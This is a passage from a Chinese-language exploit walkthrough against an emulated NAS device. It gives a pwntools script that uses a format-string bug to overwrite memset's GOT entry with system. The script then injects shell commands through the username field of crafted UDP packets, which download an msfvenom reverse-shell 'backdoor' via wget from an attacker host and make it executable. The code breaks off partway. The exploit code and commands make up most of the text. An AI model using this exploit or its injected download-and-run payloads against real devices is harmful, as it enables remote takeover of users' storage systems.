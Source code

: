 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669794654943-13242f1c-2143-4066-99ff-a10e7e29decd.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669794679556-1e1e6705-b5c2-485a-9406-028cf440a674.png)

可以看到成功命令执行。现在memset已经被成功改为了system了，最后完善一下就可以了。因为该NAS有wget，所以我们先修复一下软链接：

```python
/ # rm ./usr/sbin/wget 
/ # ln -s /bin/busybox /usr/sbin/wget
/ # wget
BusyBox v1.19.4 (2021-04-01 09:56:40 CST) multi-call binary.

Usage: wget [-c|--continue] [-s|--spider] [-q|--quiet] [-O|--output-document FILE]
	[--header 'header: value'] [-Y|--proxy on/off] [-P DIR]
	[--no-check-certificate] [-U|--user-agent AGENT] [-T SEC] URL...

/ # 
```

使用kali生成msf反向shell，注意这里的LHOST为虚拟机的IP而不是qemu的IP：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669797135238-6af0ab12-2da3-4253-924c-0dc3b37961df.png)

使用python在msf目录下启动http服务：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669797254370-f1935361-4a3c-481f-9598-555a7a64a5c7.png)

完整exp如下：

```python
from pwn import *
from threading import Thread
context.log_level="debug"
context.arch="arm"
context.endian="little"
def accept():
    l=listen(50127, typ='udp')	# 监听本地（Ubuntu）的50127端口
    l.wait_for_connection()
    print(l.recv(100))			# 接收100字节应该够了
    l.close()


thread = Thread(target=accept)
thread.start()  

memset_got=0x34BE4
p=remote('192.168.5.1', 50127, typ='udp')
payload1_username = b"cyberangel"
payload1_password = b'bbbb'+b"%73868c%347$n"+p32(memset_got)
encode1_username = payload1_username.hex()
encode1_password = payload1_password.hex()
data1=bytes.fromhex(
    f"00420241001c42af5b3a004f525400123456555345524e414d453a{encode1_username}0950415353574f52443a{encode1_password}0953484152455f5245513a30094654505f5245513a30")
p.send(data1)

payload2_username = b";wget http://192.168.5.2:8080/msf-arm -O /backdoor;"	# 下载backdoor
payload2_password = b"cyberangel"
encode2_username = payload2_username.hex()
encode2_password = payload2_password.hex()
data2=bytes.fromhex(
    f"00420241001c42af5b3a004f525400123456555345524e414d453a{encode2_username}0950415353574f52443a{encode2_password}0953484152455f5245513a30094654505f5245513a30")
p.send(data2)

payload3_username = b";chmod +x /backdoor;"		# 授予可执行权限
```
